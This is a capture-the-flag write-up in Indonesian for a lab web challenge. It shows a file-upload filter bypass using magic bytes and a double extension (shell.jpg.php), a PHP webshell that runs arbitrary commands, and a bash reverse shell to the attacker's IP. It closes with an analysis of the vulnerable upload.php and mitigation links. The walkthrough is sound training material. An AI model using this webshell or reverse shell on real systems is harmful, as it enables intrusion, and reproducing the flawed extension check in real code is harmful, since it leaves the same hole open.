










# Day 2 |  The Elf Strikes Back

`Web Exploitation` `RCE`

---
## Learning Outcomes

- Understanding GET and POST parameters
- Bypass file upload 
- Vulnerability Analysis by me!

## Summary

1. Find a file upload point.
2. Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
3. Find the directory containing your uploads.
4. Try to bypass any filters and upload a reverse shell.
5. Start a netcat listener to receive the shell
6. Navigate to the shell in your browser and receive a connection!

## Write up

Pada task kali ini, diberikan suatu ID = ODIzODI5MTNiYmYw.

ID tersebut digunakan untuk mengakses page berikut.



> Pengingat:
>- Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL, namun bisa di intercept)
>- Metode GET request : data yang dikirim terlihat pada URL berupa parameter
>   - Setiap nilai parameter dipisah dengan &


Caranya adalah menambahkan query (tanda tanya `?`) dengan parameter `id=value`.

http://10.10.43.11/?id=ODIzODI5MTNiYmYw



Dari sini upload file dapat dilakukan, dimana ekstensi yang diminta adalah jpeg, jpg, dan png.



Berikut adalah list common uploads directory  
- /uploads
- /images
- /media
- /resources

File yang di upload berada pada direktori /uploads.

Selanjutnya adalah mempersiapkan shell/backdoor web untuk di upload pada direktori tersebut.

Disini saya menggunakan webshell yang merupakaan bawaan dari Kali Linux.

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```
> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes digunakan untuk mengelabui/membypass uploader, meyakinkan bahwa yang diupload adalah file jpeg bukan webshell/backdoor.  



Namun hal tersebut tidak berhasil. Tetapi ketika dibalik menjadi shell.jpg.php, webshell berhasil di upload.



Sekarang Remote Code Execution (RCE) dapat dilakukan



Dengan adanya RCE, kita bisa mendapatkan reverse shell untuk masuk ke dalam system.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```
 Sedikit penjelasan :
- bash -i >& /dev/tcp/10.9.30.115/9000   
" Berikan interactive shell dari bash melalui TCP ke 10.9.30.115 di port 9000 "
- 0>&1  
" Redirect stdin (input) ke stdout (ouput) ", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```



Flag ditemukan pada /var/www/flag.txt

```
find / -type f 2>/dev/null | grep flag
```




## Vulnerability Analysis & Mitigation

### Bypass upload filter 

/var/www/html/upload.php
```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Baris code berikut yang membuat shell yang di upload lolos.

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Berikut adalah contoh data yang dikirim ketika melakukan file upload



data = {"name":"shell.php", "id":"ODIzODI5MTNiYmYw", ...etc}

Sesampainya pada baris ini

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Nama shell.php dipecah/explode dengan titik sebagai pemisahnya menjadi

- shell <-- $data["name"][0] 
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

Berikut hasilnya 



Contoh mitigasi 

https://stackoverflow.com/questions/14789206/if-statement-to-filter-file-extensions

### Remote Code Execution

Berikut adalah cara memitigasi agar file2 php pada direktori tertentu tidak dapat di eksekusi 

https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine